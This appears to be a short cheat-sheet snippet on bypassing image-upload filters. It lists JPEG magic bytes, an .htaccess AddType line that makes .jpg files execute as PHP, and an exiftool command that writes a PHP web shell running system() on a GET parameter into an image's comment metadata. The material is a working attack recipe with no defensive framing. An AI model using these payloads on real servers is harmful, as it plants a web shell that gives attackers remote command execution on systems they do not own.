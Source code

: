 Jpg image header

```
FF D8 FF EE
```

.htaccess bypass:

```
AddType application/x-httpd-php .jpg
```

Manipulating image metadata:

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lol.jpeg
```
